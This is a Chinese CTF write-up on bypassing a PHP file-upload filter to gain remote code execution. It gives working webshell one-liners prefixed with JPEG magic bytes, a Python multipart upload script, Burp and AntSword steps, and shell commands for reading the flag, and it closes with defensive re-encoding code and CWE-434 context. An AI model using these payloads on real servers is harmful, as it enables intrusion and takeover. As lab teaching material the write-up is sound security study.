


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 09 千机禁域](/posts/ctf-learning/09-qianji-jinyu/)　·　[11 SSTI →](/posts/ctf-learning/11-ssti/)



> **一句话**：上传题的核心就是一句话 —— **服务器到底在检查什么？** 它查后缀，你就换名字；它查文件头，你就伪造文件头；它什么都不查，你就直接传木马。这套笔记把"三张牌"和它们的出牌条件讲清楚。

| 项目 | 内容 |
|---|---|
| 类型 | 文件上传绕过 → 获取 RCE |
| 难度 | ★★ |
| 环境 | Apache + PHP 8.2（mod_php）+ `AllowOverride All` |
| 入口 | `POST /upload.php`，字段名 `spiritPattern` |
| 页面宣称的三条规则 | ① 建议扩展名 `.jpg` ② 尺寸 ≤ 30000 字节 ③ 必须含 `FFD8FF` |

> 📌 本篇包含两关的实测：**通幽关·灵纹诡影**（36066）与**御神关·补天玉碑**（36183）。两关用的是同一套上传界面，但考察点不同。

---

## ① 一眼看懂

### 页面给的规则

```
仅受仙灵之气浸润的「云纹图」可修复玉魄核心（建议扩展名：.jpg）
灵纹尺寸不得大于三寸（30000字节）
灵纹必须包含噬心魔印（十六进制校验码：FFD8FF）
违禁灵纹将触发九幽雷劫，魂飞魄散！
```

### 把"文言文"翻译成技术语言

| 页面文案 | 技术含义 |
|---|---|
| 「云纹图」，**建议**扩展名 `.jpg` | 期望上传图片。⚠️「**建议**」二字是关键 —— 它可能只是建议 |
| 尺寸不得大于三寸（30000字节） | `$_FILES['x']['size'] > 30000` 就拒绝 |
| 必须包含**噬心魔印** `FFD8FF` | 期望它是 JPEG 魔数（**后续源码确认：本关实际只比较前 3 字节**） |
| 「违禁灵纹将触发九幽雷劫」 | 有个校验失败的处理分支 |

> **第一课**：**页面上写的规则，不等于代码里真的检查了。**
> 「建议」「推荐」「请使用」这类措辞，往往就是"**没有强制**"的委婉说法 —— 必须去源码里验证。

### 三张牌（本篇的核心）

| 牌 | 内容 | 什么时候出 |
|---|---|---|
| 🃏 **牌 1：后缀** | `shell.php` / `shell.php.jpg` / `shell.phtml` | 目标**不查**后缀，或只查最后一个后缀 |
| 🃏 **牌 2：魔数** | 在木马前面加 `\xff\xd8\xff`（JPEG）或 `GIF89a` | 目标**查文件头** |
| 🃏 **牌 3：`.htaccess`** | 上传一个配置文件，让 `.jpg` 也被当 PHP 执行 | 目标**只查后缀黑名单**、且**不查文件内容** |

**牌 3 在本关走不通**（本篇实测）：本关要求所有文件都以 `FF D8 FF` 开头，而这个前缀恰好会让 `.htaccess` 变成非法配置。详见 ③ 节第六小节。

### 先认识几个名词（后面会反复用到）

| 名词 | 一句话解释 |
|---|---|
| **RCE** | Remote Code Execution，远程代码执行 —— 攻击者能让服务器运行自己的代码，等于拿到服务器 |
| **webshell（木马）** | 一个"蹲在服务器上听命令"的脚本文件，你通过 HTTP 请求给它下命令 |
| **一句话木马** | 最短的 webshell，只包含一次 `eval` / `system` 调用 |
| **multipart/form-data** | 表单**携带文件**时的请求格式（普通表单是 `键=值`，它是分段传输的） |
| **魔数（magic bytes）** | 文件开头的几个特征字节，用来标识文件类型：JPEG 是 `FF D8 FF`，GIF 是 `GIF89a` |
| **Burp Suite** | 抓包改包工具，能拦截 HTTP 请求、手动改任意字段后再放行 |
| **蚁剑（AntSword）** | webshell 管理客户端，连上木马后能像文件管理器一样操作服务器 |
| **mod_php / PHP-FPM** | 两种让 Web 服务器执行 PHP 的方式，**配置写法不同、不能互相照搬** |

---

## ② 思路图



---

## ③ 动手步骤

### 一、先侦察：它到底查什么

传一个**故意违规**的文件，看它报什么错。这是整道题最重要的一步。

**测试 1：传纯文本（无魔数）**，文件名 `test.jpg`

→ 实测回显：

```
九幽雷劫！
噬心魔印校验失败！
预期魔印：ffd8ff
检测到魔印：3c3f70        ← 3c3f70 = "<?p"
```

**这一条报错就是"送分"** —— 它把**检测到的前 3 字节**告诉你了，等于提示：**它检查的是文件开头**。

（至于"是不是只读 3 个字节、还有没有别的检查"，要靠看源码或继续测试才能确定。）

**测试 2：传 `.htaccess`（文件头是 `Add`）**

→ 实测回显：

```
检测到魔印：416464        ← 41=A, 64=d, 64=d → "Add"
```

**结论**：魔数是**无条件校验**的，跟后缀无关。

### 二、读源码（能拿到就一定要拿）

如果靶机已有 RCE（比如上一关拿到的 shell），**第一件事就是把源码读出来**：

```bash
cat /var/www/html/upload.php
```

通幽关实测源码（关键部分）：

```php
$uploadDir   = 'uploads/';
$maxSize     = 30000;
$magicHeader = "\xFF\xD8\xFF";

$file     = $_FILES['spiritPattern'];
$fileName = basename($file['name']);      // ← 只取文件名，保留后缀
$targetPath = $uploadDir . $fileName;     // ← 直接用你给的名字

if ($file['size'] > $maxSize) { die('太大'); }        // 校验①：大小

$handle = fopen($file['tmp_name'], 'rb');
$header = fread($handle, 3);                          // ★ 只读 3 字节
if ($header !== $magicHeader) { die('魔印校验失败'); } // 校验②：文件头

move_uploaded_file($file['tmp_name'], $targetPath);   // 直接存，不查后缀！
```

**读完源码，答案就摆在桌面上了**：

| 页面宣称 | 代码里真有吗 |
|---|---|
| 「**建议**扩展名 .jpg」 | ❌ **一行都没有** —— 所谓"建议"是真心话 |
| 尺寸 ≤ 30000 | ✅ 真查 |
| 必须含 FFD8FF | ✅ 真查，但只读前 3 字节 |

**本次能直接 getshell，是下面三个条件同时成立**：

1. **不校验后缀** → 可以传 `.php`
2. **`basename($file['name'])` 用你的文件名** → 名字完全可控
3. **`uploads/` 在网站根目录，且服务器会把上传的文件交给 PHP 执行** → 访问即执行

> ⚠️ **别把这三条读成"修一个就安全了"。** 防护要**真正切断"上传的文件被当作代码执行"这条路径**。
> 例如：只随机重命名、后缀仍由用户决定，攻击者照样可能拿到 `.php`；只做不完整的后缀黑名单，也常被绕过。

### 三、出牌：造"图片马"并上传

**核心矛盾**：它要"文件头像图片"，也要"能被 PHP 执行" —— **那就两个都给它**。

```python
payload = b"\xff\xd8\xff" + b'<?php @eval($_POST["cmd"]);?>'
#          └─ 牌 2：骗过魔数 ─┘  └─── 真正的木马 ───┘
```

**为什么两件事不冲突**：文件头校验**只看开头 3 个字节**；而一旦这个文件**被服务器交给 PHP 处理**，PHP 引擎就会解释 `<?php ... ?>` 里的代码，**标签之外的字节原样输出、不影响执行**。

（注意前提：「被交给 PHP 处理」这一步**取决于服务器的处理器配置** —— 这正是"能不能执行"的关键，不是文件名说了算。）

用 Python 直接发 multipart（不用开 Burp 也行）：

```python
import urllib.request, uuid

BASE = "http://<靶机>/upload.php"
PAYLOAD = b"\xff\xd8\xff" + b'<?php @eval($_POST["cmd"]);?>'
FILENAME = "shell.php"          # ← 牌 1：名字直接写成 .php

b = "----B" + uuid.uuid4().hex
body = (f"--{b}\r\n"
        f'Content-Disposition: form-data; name="spiritPattern"; filename="{FILENAME}"\r\n'
        f"Content-Type: image/jpeg\r\n\r\n").encode() + PAYLOAD + f"\r\n--{b}--\r\n".encode()

req = urllib.request.Request(BASE, data=body, method="POST",
        headers={"Content-Type": f"multipart/form-data; boundary={b}"})
print(urllib.request.urlopen(req, timeout=20).read().decode("utf-8", "replace"))
```

**实测回显**（它会主动告诉你路径，又一个送分点）：

```
灵纹已接收
灵纹上传成功！玉魄核心正在解析...
灵纹已存储于玉魄空间：/uploads/shell.php
```

**Burp 改包版**（顺序很重要）：

1. **先在本地造好那个文件** —— 内容是 `\xff\xd8\xff` + PHP 代码
2. 在上传页面选它提交，用 Burp 拦截
3. 把包里的 `filename="x.jpg"` 改成 `filename="shell.php"`
4. 放行

> ⚠️ **随便拿一张真图片只改文件名是没用的** —— 文件内容里没有 PHP 代码，改完照样不能执行。**内容必须自己造。**

### 四、验证执行（关键：别被假阳性骗了）

上传后访问 `/uploads/shell.php`。

⚠️ **不要用"页面一片空白"判断成功** —— 空白也可能是报错被隐藏、响应为空或别的失败。

**可靠的做法：让木马算一个「源码里不存在」的结果。**

不要 `echo "MARK"` —— 这个字符串在**源码里也有**，原样返回时照样能匹配上（假阳性）。要比对一个**只有 PHP 算得出来**的值：

```php
<?php echo 7*7; ?>
```

| 响应内容 | 判断 |
|---|---|
| `49` | ✅ **执行了**（`49` 是 PHP 算出来的，源码里只有 `7*7`） |
| `7*7`、或含 `<?php` 原文 | ❌ **没执行**（原样返回了源码） |
| 空白 | ⚠️ **无法判定**，换一个会输出内容的表达式再试 |

> ⚠️ **我自己在这里翻过车**：一开始我用"响应里有没有出现我设的标记"来判断，
> 结果**源码原文里也含那个标记**，导致每个后缀都判成"执行了"（全是假阳性）。
> **正确判据是：让 PHP 算出一个源码里不存在的值。**

### 五、后缀到底哪个能用（实测对照表）

在 **Apache + mod_php**、配置为 `<FilesMatch \.php$> SetHandler application/x-httpd-php` 的环境下，我逐个实测：

| 文件名 | 是否当 PHP 执行 | 说明 |
|---|---|---|
| `shell.php` | ✅ **执行** | 最直接 |
| **`shell.php.jpg`** | ✅ **执行！** | 实测执行；**机制未核实**（见 ④ 节） |
| `shell.jpg.php` | ✅ 执行 | 同上 |
| `shell.jpg` | ❌ 不执行 | 原样返回 |
| `shell.phtml` | ❌ 不执行 | 这套环境没配这个后缀 |
| `shell.php5` / `.pht` / `.phar` | ❌ 不执行 | 同上 |
| `.htaccess` | ❌ 被魔数检查拦 | 见下节 |

👉 **实战中最常用的一张是 `.php.jpg`**（提醒：它在本靶场**实测有效**，但"为什么会执行"我还没查清，见 ④ 节）：

```
文件名: yiju.php.jpg      ← 后缀是 .jpg（骗过"只看最后一段后缀"的检查）
                          ← 名字里含 .php（Apache 照样当 PHP 执行）
内容:   \xff\xd8\xff<?php @eval($_POST['cmd']);?>    ← 魔数也满足
```

**一个文件名，把后缀、名字、文件头三项要求都满足了。**但最终**能不能执行，取决于服务器的处理器配置**，必须以实测为准。

### 六、`.htaccess` 这张牌：为什么打不进去（重要）

很多 writeup 会说"传 `.htaccess` 让 jpg 变成 php"。**但在这套环境里它走不通**，原因是**逻辑互斥**：

| 谁的要求 | 具体要求 |
|---|---|
| `upload.php` | 文件**前 3 字节**必须是 `ff d8 ff` |
| Apache | `.htaccess` 里**非空、非注释（`#`）的行**必须符合 Apache 配置语法 |

我实测的 6 种写法：

| 尝试 | 结果 |
|---|---|
| `.htaccess` 原样（`AddType application/x-httpd-php .jpg`） | ❌ 被魔数检查拦（`416464`） |
| 前面加 `\xff\xd8\xff` | ✅ 上传成功，**但 `/uploads/` 整个目录 500** |
| 魔数 + 换行 | 500 |
| 魔数 + 注释行 | 500 |
| 魔数 + 空行 | 500 |
| 魔数 + 换行 + 合法指令 | 500 |

**为什么加魔数就 500**：`\xff\xd8\xff` 后面紧跟 `AddType`，Apache 把它整体当成一个**叫 `\xff\xd8\xffAddType` 的指令** → 不认识 → **配置解析失败 → 该目录下所有请求返回 500**。

> ⚠️ **血的教训（动手前先读这段）**：我为了验证这一点，把一台靶机的 `/uploads/` 目录搞成了 500。
>
> **为什么恢复不了**：上传接口强制要求文件以 `ffd8ff` 开头，而任何以此开头的 `.htaccess` 都是非法配置 ——
> **你没法用同一个上传接口把它修好**。
>
> **所以**：
> - ❌ **不要在生产环境或别人的靶场上做这个实验**
> - ✅ 要在自己的靶机上试，先确认你有**别的通道**能删掉那个文件（容器控制台、挂载卷，或平台提供的"重置/重建实例"）
> - ⚠️ **普通的"重启"未必管用** —— 容器文件系统里的错误文件通常还在，需要的是**重建**（重新拉一个干净容器）

**所以这张牌的正确用法是**：

| 目标的过滤 | `.htaccess` 能不能用 |
|---|---|
| **只查后缀黑名单**（拦 `.php`），且允许 `.htaccess` 落地并生效 | ✅ **可能能用**（还要满足下面的前提） |
| **强制文件头/魔数**（像这两关） | ❌ 本篇 6 种写法全部失败 |

**牌 3 生效的前提（都要满足）**：
① `.htaccess` 这个名字能被保存下来；② Apache 开了目录配置覆盖（`AllowOverride`）；
③ 你需要的那条指令被允许；④ 环境里有对应的 PHP 处理机制（mod_php 和 PHP-FPM 不一样）。

顺带说明：这套环境的 Apache 配置里 **`AllowOverride All` 是开着的**（我从源码里确认过），也就是说 `.htaccess` **确实会生效** —— 只是**没有用武之地**，因为这关不查后缀，直接用 `.php.jpg` 更省事。

### 七、用蚁剑连接

| 配置项 | 值 |
|---|---|
| URL 地址 | `http://<靶机>/uploads/shell.php` |
| 连接密码 | `cmd` —— ⚠️ **它不是真密码**，而是**木马接收命令的参数名**（对应代码里的 `$_POST['cmd']`）。代码里**没有任何密码校验** |
| 编码器 | default |

连上后：右键 → **虚拟终端** → 找 flag：

```bash
id                    # uid=33(www-data)
ls -la /
cat /flag.txt
```

**通幽关实测拿到**：`flag{4a93daf0-6223-4699-b5a2-a04255e94441}`（flag 在 `/flag.txt`，43 字节）

### 八、⚠️ PHP 8 会让老木马失效

网上抄来的一句话木马常写成：

```php
<?php eval($_POST[cmd]);?>
```

**`cmd` 没有加引号** —— 在 PHP 7 里只是警告，**PHP 8.0 起是致命错误**：

```
Error: Undefined constant "cmd"
```

这两关都是 **PHP 8.2**，所以必须改成：

```php
<?php @eval($_POST['cmd']);?>
```

（`@` 是错误抑制符，顺手屏蔽报错，避免暴露路径。）

**其他常用木马写法**：

```php
<?php @eval($_POST['cmd']);?>          // eval：功能最强
<?php @system($_POST['cmd']);?>        // system：直接执行命令，输出回显
<?php @assert($_POST['cmd']);?>        // assert：PHP 8 仍有此函数，但不再把字符串当代码执行 → 这种老写法失效
```

---

## ④ 原理拆解

这三张牌能成立，根子是同一个错位：**上传代码把文件当"数据"审 —— 只查大小和开头 3 字节；而 Apache 决定"要不要把它当代码跑"时只看文件名**。两套判定标准对不上，漏洞就活在这条缝里。

**第一张牌·后缀。** 服务端自始至终没校验扩展名，代码级证据：

```php
$fileName   = basename($file['name']);   // 文件名完全来自客户端请求
$targetPath = $uploadDir . $fileName;    // 原样拼接，无后缀白名单
```

`$_FILES['spiritPattern']['name']`（本例中先赋值给了 `$file`，所以后文写作 `$file['name']`）是浏览器随请求自报的字符串，想写什么都行 —— "建议 .jpg"只是页面文案。文件落地后执不执行，由 mod_php（把 PHP 引擎嵌进 Apache 的模块）说了算：配置 `<FilesMatch \.php$>` 加 `SetHandler application/x-httpd-php`，意思是"文件名以 .php 结尾的，交给 PHP 跑"。这正好解释实测：`.php`、`.jpg.php` 执行，`.jpg` 不执行，`.phtml`/`.php5`/`.pht`/`.phar` 因不符合这条匹配规则也不执行。

唯一对不上的是 **`.php.jpg` 实测也执行** —— 按该配置的字面含义它不该命中，推测靶机另有未给出的匹配规则，**需核实**。

**第二张牌·魔数。** 魔数是文件开头的特征字节，`FFD8FF` 是 JPEG 图片的起始标记。检查只有一句 `fread($handle, 3)`：只读前 3 字节比对，既不解析整个文件，也没有读取图片的尺寸等结构信息（比如 `getimagesize()`）。而 PHP 引擎执行文件时，`<?php` 标签之外的字节一律原样输出、不算语法错误。于是 `\xFF\xD8\xFF` 接上 `<?php system($_GET['c']);?>` 就成了"双面文件"：对检查器它是图，对 PHP 它是代码。

**第三张牌·.htaccess。** 它是 Apache 的目录级配置文件。在**支持这种"类型 → PHP 处理"方式的 mod_php 环境**里，往 `uploads/` 传一个写上 `AddType application/x-httpd-php .jpg`，**可能**让 `.jpg` 交给 PHP 执行 —— **具体要看处理器配置（需核实）**；PHP-FPM 的配置方式不一样，不能照搬。它败在连环撞车：配置内容开头是 `Add`（十六进制 `416464`），过不了魔数关；前面垫了 `\xff\xD8\xFF` 骗过检查后，这三个字节又让配置语法非法，Apache 对整个目录报 500。

顺带一个版本坑：`$_POST[cmd]` 里的裸词 `cmd` 没加引号。PHP 7.2—7.4 只发**警告**并把它当成字符串 `'cmd'`（所以老木马能凑合用），**PHP 8 起直接抛 Error**。

所以必须**给键名加引号**：`$_POST['cmd']`。
（注意：要改的是**引号**，不是把 POST 换成 GET —— 用 POST 还是 GET，得和蚁剑里配置的参数类型对应。）

---

## ⑤ 延伸与防御

### A. 真实世界对应

OWASP Top 10 是常见 Web 安全风险分类；本题可归入 **A04:2021 — 不安全设计**：上传功能缺少"用户文件不得作为代码执行"的边界。CWE 是软件弱点编号体系，对应 **CWE-434：不受限制地上传危险类型文件**。

经典案例：**Adobe ColdFusion 8，2009 年**，其附带的 FCKeditor 存在文件上传漏洞（CVE-2009-2265），攻击者可上传并执行任意代码。它说明：编辑器、头像等上传入口，也可能成为服务器执行代码的入口。

### B. 同类题变形

- **后缀白名单**（只准指定类型）：核对大小写、最后一个后缀与服务器解析规则是否一致；双后缀能否执行取决于配置。
- **增加 `getimagesize()`**：它读取图片尺寸，不保证内容安全；有效图片仍可能夹带代码，应关注文件最终是否交给 PHP。
- **上传目录禁止执行**：直接访问通常只能下载或显示；再检查是否有文件包含漏洞，即程序把上传文件作为脚本载入。
- **随机重命名**：观察返回路径和最终后缀；随机名称只能降低猜中路径的概率，不能消除执行风险。
- **允许 `.user.ini`**：这是 PHP 的目录级配置文件，通常仅在 CGI/FastCGI 模式生效；本题的 mod_php 不适用，不能照搬。

### C. 防御写法

⚠️ 以下为示意代码，非本题源码。

**错误写法**：

```php
move_uploaded_file($tmp, 'uploads/'.$name);
```

即使补上三字节检查，仍然信任用户文件名，也没有隔离执行权限。

**正确写法的核心：解析图片后重新编码，只保存生成结果。**

```php
$im = @imagecreatefromjpeg($tmp);
if ($im === false) die('无效图片');
$dst = '/srv/upload-data/' .
       bin2hex(random_bytes(16)) . '.jpg';
if (!imagejpeg($im, $dst)) die('保存失败');
imagedestroy($im);
```

这里需安装 GD 图片处理扩展。执行前还须检查上传错误、实际大小、允许的后缀，并限制解码资源。保存目录应在网站根目录之外，通过受控接口返回图片。重新编码减少夹带内容，随机名防止同名覆盖；**禁止脚本执行、禁止目录配置覆盖，才是关键边界**。
